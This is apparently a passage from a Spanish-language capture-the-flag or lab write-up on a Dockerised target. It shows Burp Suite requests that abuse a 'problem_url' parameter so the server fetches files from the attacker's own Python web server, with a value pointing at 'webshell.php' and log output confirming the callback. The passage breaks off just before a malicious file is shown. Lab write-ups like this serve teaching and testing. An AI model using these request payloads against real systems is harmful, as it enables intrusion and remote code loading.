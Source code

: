 ```
Upgrade-Insecure-Requests: 1



name=pepito+grillo&email=grillo%40example.com&phone=123456789&problem_url=http%3A%2F%2Ftusitio.com%2Fuploads%2Fwebshell.php
```
la mandamos al repeater y vamos a ver que podemos hacer

para trabajar más limpio dejo así la peticion en la parte de los datos:
```
name=pepito+grillo

&email=grillo%40example.com

&phone=123456789

&problem_url=http%3A%2F%2Ftusitio.com%2Fuploads%2Fwebshell.php
```

ahí tenemos problen_url, vamos a hacernos una petición de un archivo y vemos que pasa

mi ip en docker es 172.17.0.1

monto un servidor con python:
```bash
sudo python3 -m http.server 80
```
y hago una petición a mi ip de unarchivo que no existe:
```
http://172.17.0.1/noexisto.php
```
que encodeado me queda así:
```
http%3A%2F%2F172.17.0.1%2Fnoexisto.php
```
hago la petición porburpsuite quedando así la data:

```
name=pepito+grillo

&email=grillo%40example.com

&phone=123456789

&problem_url=http%3A%2F%2F172.17.0.1%2Fnoexisto.php
```
no obtengo la petición a mi servidor python
asique modifico esta vez en la url ya que ponía que era una constante
```
POST /reservation.php?problem_url=http%3A%2F%2F172.17.0.1%2Fnoexisto.php
```

y ahora si recibo la petición a mi servidor:
```
sudo python3 -m http.server 80                                                                                                                                                
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
172.17.0.2 - - [21/Jan/2025 14:22:58] code 404, message File not found
172.17.0.2 - - [21/Jan/2025 14:22:58] "GET /noexisto.php HTTP/1.1" 404 -
```
pues voy a subir un archivo malicioso, creo uno con este contenido:
